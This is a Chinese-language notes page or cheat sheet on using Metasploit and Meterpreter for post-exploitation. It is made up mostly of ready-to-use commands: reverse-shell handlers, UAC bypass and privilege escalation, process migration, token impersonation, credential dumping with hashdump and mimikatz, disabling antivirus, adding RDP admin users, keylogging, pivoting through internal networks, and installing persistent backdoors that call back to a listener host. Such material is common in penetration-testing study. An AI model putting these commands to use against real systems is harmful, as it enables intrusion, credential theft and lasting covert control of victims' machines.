 # metasploit 小记

---

## Reference
- [linux - Metasploit: Module database cache not built yet, using slow search - Server Fault](https://serverfault.com/questions/761672/metasploit-module-database-cache-not-built-yet-using-slow-search)
- [Metasploit入门用法(主动攻击) - CSDN博客](https://blog.csdn.net/wsh19930305/article/details/72855660)
- [meterpreter必知必会的15个命令](https://www.4hou.com/tools/14185.html)
- [萌新科普 手把手教你如何用MSF进行后渗透测试](https://www.anquanke.com/post/id/164525)

---

**添加一个新的exploit**

1. 在 `/usr/share/metasploit-framework/modules/exploits/` 目录下新建一个自定义文件夹 aaatest,将 rb 脚本扔进去
2. 启动 metasploit
3. 输入 reload_all 重新加载所有模块
4. use exploit/aaatest/exp(输入的时候可以用 tab 补全，如果不能补全说明就有问题)

---

## meterpreter

### 快速上手
```bash
shell   # 获取目标主机的 cmd shell
getsystem # 命令可以提权到本地系统权限
sysinfo # 显示系统名,操作系统,架构和语言等。
```

### 获取会话
**handler**
```bash
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set LHOST
set LPORT
exploit -j  # 后台执行
```

**cmdshell 升级为 meterpreter**

如果最开始获取的是 cmdshell,后来发现这台机器非常适合作为测试其它终端的跳板,这个时候 cmdshell 的功能已经不能满足需要,升级成 meterpreter 就十分有必要。`sessions -u "id"` 将该 cmdshell 升级成 meterpreter

### 提权
**绕过 UAC**

通常 webshell 的权限都比较低,能够执行的操作有限,没法查看重要文件、修改系统信息、抓取管理员密码和 hash、安装特殊程序等,所以我们需要获取系统更高的权限

```bash
use exploit/windows/local/bypassuac # 一系列都可用
use exploit/windows/local/bypassuac_eventvwr
sessions    # 查看目前的session
sessions -k # 杀死所有session
set session    # 设为你需要exploit的session
```

**利用系统漏洞提权**

```bash
use exploit/windows/local/ms13_081_track_popup_menu # 以ms13-081为例
set session
```

### 进程迁移

当meterpreter单独作为一个进程运行时容易被发现,如果将它和系统经常运行的进程进行绑定,就能够实现持久化。
```bash
getpid  # 查看当前会话的进程id
ps  # 查看目标运行的进程
migrate pid # 绑定/迁移进程
```

### 令牌假冒

在用户登录 windows 操作系统时,系统都会给用户分配一个令牌(Token),当用户访问系统资源时都会使用这个令牌进行身份验证,功能类似于网站的 session 或者 cookie。

msf提供了一个功能模块可以让我们假冒别人的令牌,实现身份切换,如果目标环境是域环境,刚好域管理员登录过我们已经有权限的终端,那么就可以假冒成域管理员的角色。
```bash
getuid  # 查看当前用户
use incognito   # 进入该模块
list_tokens -u  # 查看存在的令牌
impersonate_token 用户名  # 令牌假冒
# 注意用户名的斜杠需要写两个。

getuid  # 查看是否切换成功
```

### 获取凭证
```bash
run hashdump

load mimikatz   # 加载mimikatz模块
wdigest
kerberos
```

### 操作文件系统
**基本操作**
```bash
ls：列出当前路径下的所有文件和文件夹。
pwd 或 getwd：查看当前路径
search：搜索文件,使用search -h查看帮助。
cat：查看文件内容,比如cat test.txt。
edit：编辑或者创建文件。和Linux系统的vm命令类似,同样适用于目标系统是windows的情况。
rm：删除文件。
cd：切换路径。
mkdir：创建文件夹。
rmdir：删除文件夹。
getlwd 或 lpwd：查看自己系统的当前路径。
lcd：切换自己当前系统的目录。
lls：显示自己当前系统的所有文件和文件夹。
```

**上传和下载**
```bash
upload <file> <destination> # 上传文件到 Windows 主机
# 注意：使用 -r 参数可以递归上传上传目录和文件

download <file> <path to save>  # 从 windows 主机下载文件
# 注意：Windows 路径要使用双斜线
# 如果我们需要递归下载整个目录包括子目录和文件,我们可以使用 download -r命令
```

### 其它操作
**关闭防病毒软件**
```bash
run killav
run post/windows/manage/killav
```

**操作远程桌面**
```bash
run post/windows/manage/enable_rdp # 开启远程桌面
run post/windows/manage/enable_rdp username=test password=test # 添加远程桌面的用户(同时也会将该用户添加到管理员组)
```

**截屏**

`screenshot`

**键盘记录**
```bash
keyscan_start：开启键盘记录功能
keyscan_dump：显示捕捉到的键盘记录信息
keyscan_stop：停止键盘记录功能
```

**执行程序**
```bash
execute -f <path> [options] 在目标主机上执行 exe 文件
-H：创建一个隐藏进程
-a：传递给命令的参数
-i：跟进程进行交互
-m：从内存中执行
-t：使用当前伪造的线程令牌运行进程
-s：在给定会话中执行进程
```

### 端口转发和内网代理
**portfwd**

portfwd 是 meterpreter 提供的端口转发功能,在 meterpreter 下使用 portfwd -h 命令查看该命令的参数。
```bash
portfwd add -l 2222 -r 1.1.1.1 -p 3389 # 将1.1.1.3的3389端口转发到本地的2222端口。
-l：本地监听端口
-r：内网目标的ip
-p：内网目标的端口
```

**pivot**

pivot 是 msf 最常用的代理,可以让我们使用 msf 提供的扫描模块对内网进行探测。
```bash
route add 内网ip 子网掩码 session的id # 添加一个路由
route print

如果其它程序需要访问这个内网环境,就可以建立socks代理
msf提供了3个模块用来做socks代理。
auxiliary/server/socks4a
auxiliary/server/socks5
auxiliary/server/socks_unc

use auxiliary/server/socks4a
SRVHOST：监听的ip地址,默认为0.0.0.0,一般不需要更改。
SRVPORT：监听的端口,默认为1080。
直接运行run命令,就可以成功创建一个socks4代理隧道,在linux上可以配置proxychains使用,在windows可以配置Proxifier进行使用。
```

### 后门

Meterpreter的shell运行在内存中,目标重启就会失效,如果管理员给系统打上补丁,那么就没办法再次使用exploit获取权限,所以需要持久的后门对目标进行控制

**metsvc**
```bash
run metsvc
# 命令运行成功后会在 C:WindowsTEMP 目录下新建随机名称的文件夹,里面生成3个文件(metsvc.dll、metsvc-server.exe、metsvc.exe)
# 同时会新建一个服务,显示名称为Meterpreter,服务名称为metsvc,启动类型为"自动",绑定在31337端口。

use exploit/multi/handler
set payload windows/metsvc_bind_tcp
set rhost xxx.xxx.xxx.xxx
set lport 31337
```

**persistence**
```bash
run persistence -X -i 10 -r 192.168.1.9 -p 4444
-A：安装后门后,自动启动exploit/multi/handler模块连接后门
-L：自启动脚本的路径,默认为%TEMP%
-P：需要使用的payload,默认为windows/meterpreter/reverse_tcp
-S：作为一个服务在系统启动时运行(需要SYSTEM权限)
-T：要使用的备用可执行模板
-U：用户登陆时运行
-X：系统启动时运行
-i：后门每隔多少秒尝试连接服务端
-p：服务端监听的端口
-r：服务端ip
```
